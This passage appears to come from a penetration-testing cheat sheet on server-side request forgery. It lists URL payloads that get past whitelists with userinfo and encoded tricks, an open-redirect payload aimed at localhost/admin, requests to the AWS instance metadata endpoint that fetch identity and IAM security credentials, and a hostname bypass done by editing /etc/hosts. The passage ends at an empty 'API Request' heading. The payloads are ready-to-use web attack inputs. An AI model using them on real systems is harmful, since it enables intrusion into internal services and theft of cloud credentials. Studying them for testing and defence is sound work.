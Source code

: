 <br />

## Whitelisted URL Bypass

If the target website allows only the whitelisted URL, we can use them.  
Assume only "example.com" is allowed by the target website.

```sh
?url=http://localhost@example.com/
?url=http://localhost%25%32%33@example.com/
```

<br />

## Open Redirect

```sh
key=/post/next?path=http://localhost/admin
```

<br />

## AWS Instances

```bash
?url=http://169.254.169.254/latest/dynamic/instance-identity/
?url=http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

<br />

## Hostname Bypass

### 1. Add Target Domain to /etc/hosts in Local Machine

```sh
x.x.x.x sub.example.com
```

Restart the hostname service to apply the configuration imediately.

```sh
sudo systemctl restart systemd-hostnamed
```

### 2. Access to the Domain We Specified**

```txt
https://example.com/?proxy=https://sub.example.com
```

<br />

## API Request
